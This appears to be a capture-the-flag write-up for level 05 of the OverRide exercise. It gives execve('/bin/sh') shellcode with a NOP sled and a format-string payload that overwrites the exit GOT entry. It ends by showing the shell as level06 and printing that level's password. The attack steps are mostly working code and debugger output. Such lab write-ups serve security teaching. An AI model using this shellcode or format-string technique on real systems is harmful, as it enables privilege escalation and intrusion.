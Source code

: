 # level 05

## get_binary

```shell
scp -P 4242 level05@192.168.0.0:/home/users/level05/level05 level05.bin
```

## Exploit

### printf

```shell
level05@OverRide:~$ ./level05 
BBBB %10$p        
bbbb 0x62626262
```

### shellcode

* shellcode (https://www.exploit-db.com/exploits/42428) : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
export SHELLCODE=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
#Address of shellcode : `0xffffd8aa`
```

```shell
ffffd8aa_16 = 4294957226_10 > INT_MAX
# Split
0xd8aa --> 55466 --> 55458 + 8
0xffff --> 65535 --> 10069 + 55458 + 8
```

### Overwrite exit

```shell
#08048370 <exit@plt>:
# 8048370:       ff 25 e0 97 04 08       jmp    DWORD PTR ds:0x80497e0
# 8048376:       68 18 00 00 00          push   0x18
# 804837b:       e9 b0 ff ff ff          jmp    8048330 <_init+0x38>

0x80497e0                   --> \xe0\x97\x04\x08
0x80497e0 + 2 = 0x80497e2   --> \xe2\x97\x04\x08

(gdb) x/xw 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
(gdb) x/xw 0x80497e2
0x80497e2 <exit@got.plt+2>:     0x54200804

python2.7 -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55458x" + "%10$n" + "%10069x" + "%11$n")' > /tmp/exploit.txt
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
